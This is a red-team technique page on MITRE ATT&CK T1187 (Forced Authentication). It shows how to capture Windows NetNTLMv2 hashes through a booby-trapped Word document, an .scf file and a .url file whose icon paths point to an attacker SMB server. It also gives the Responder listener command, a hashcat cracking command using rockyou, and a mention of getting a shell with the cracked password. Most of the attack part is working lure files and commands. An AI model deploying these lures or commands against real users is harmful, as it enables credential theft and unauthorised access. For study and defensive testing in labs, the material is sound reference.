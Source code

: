 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink to an SMB server

Attacker creates a fake MS Word document that has a hyperlink to attackers server where a `responder` is listening on port 445 and will be capturing the victim's `NetNTLMv2` hash if they click the dodgy link in the below document:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Attacker starts a responder so he can receive incoming SMB authentication request in order to capture the victim's hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker sends the malicious document to the unsuspectim victim and convinces them to click the link. Once they click the link in the document, `responder` on the attacker's system captures victim's hash:

![](../.gitbook/assets/forced-auth-hashes.png)

Once attacker got the hash, he can try and crack it using hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on an attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

An victim user `low` then opens the share `\\10.0.0.7\tools`, `fa.scf` gets executed and the user's hashes are sent to the attackers machine:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded with a browser and as soon as the victim opens the Downloads folder, the hashes are stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

{% code-tabs %}
{% code-tabs-item title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once user navigates to the C:\ where `link.url` file is placed, the file will try to authenticate to our malicious SMB listener on `10.0.0.5` \(attacker machine\) that will capture user's NTLM hashes:

![](../.gitbook/assets/forced-authentication-url.gif)

{% embed url="https://attack.mitre.org/wiki/Technique/T1187" %}

[http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

